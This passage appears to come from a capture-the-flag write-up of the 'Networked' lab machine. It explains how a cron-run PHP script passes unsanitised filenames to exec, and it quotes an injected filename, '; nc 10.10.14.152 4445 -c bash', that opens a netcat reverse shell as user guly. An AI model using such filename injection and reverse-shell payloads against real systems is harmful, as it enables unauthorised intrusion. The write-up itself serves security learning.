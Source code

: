 ![source code for check_attack.php](/posts/networked/check_attack.png)

This is very promising. check_attack looks through each file in the uploads directory and checks to see if the filename is an IP address.
If the filename is not an IP address, it either creates an empty file at /tmp/attack.log or, if it exists, opens it for appending and puts
an empty string at the end of the file. /tmp/attack.log is then deleted for some reason, and the file is deleted using an exec call.
This call does not sanitize the filename at all, allowing us to inject a command to be run as guly through the filename. We now have a shell
on the box as an actual user instead of the Apache service user.

![a file with the name "; nc 10.10.14.152 4445 -c bash" is created in the uploads directory, and a session as guly is created when the cronjob runs](/posts/networked/escalate_to_user.png)
